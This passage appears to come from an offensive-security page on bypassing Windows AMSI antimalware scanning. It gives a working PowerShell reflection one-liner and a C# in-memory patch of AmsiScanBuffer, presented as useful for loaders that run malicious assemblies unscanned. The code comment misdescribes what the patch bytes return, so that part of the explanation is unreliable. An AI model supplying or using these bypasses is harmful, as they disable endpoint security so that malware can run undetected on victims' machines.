 ```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
**How it works:** This command finds the `AmsiUtils` class within the PowerShell automation DLL, locates the private static field `amsiInitFailed`, and sets its value to `true`. This tricks PowerShell into thinking that the AMSI initialization has failed, so it stops sending any further code to the antimalware engine for scanning.

### C# AMSI Bypass

The same principle can be applied from a C# program. This is useful for loaders that execute .NET assemblies in memory. The code loads `amsi.dll`, finds the address of the `AmsiScanBuffer` function, and overwrites its first few bytes with instructions that will make it exit prematurely and return a success code.

```csharp
// (P/Invoke signatures for LoadLibrary, GetProcAddress, and VirtualProtect are required)

// 1. Get a handle to amsi.dll
IntPtr libraryHandle = LoadLibrary("amsi.dll");
if (libraryHandle == IntPtr.Zero) return;

// 2. Get the address of the AmsiScanBuffer function
IntPtr functionAddress = GetProcAddress(libraryHandle, "AmsiScanBuffer");
if (functionAddress == IntPtr.Zero) return;

// 3. The patch bytes for x64. These instructions effectively do:
//    mov eax, AMSI_RESULT_CLEAN (which is 0, but patching to return S_OK is more common)
//    ret
byte[] patch = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };

// 4. Change memory permissions to allow writing to the function's memory space
VirtualProtect(functionAddress, (UIntPtr)patch.Length, 0x40 /* PAGE_EXECUTE_READWRITE */, out uint oldProtect);

// 5. Apply the patch by copying the bytes
Marshal.Copy(patch, 0, functionAddress, patch.Length);

// 6. Restore the original memory permissions
VirtualProtect(functionAddress, (UIntPtr)patch.Length, oldProtect, out _);
```
After this patch is applied in the process's memory, any subsequent calls to AMSI from that process will be ineffective, allowing malicious scripts or assemblies to run without being scanned. 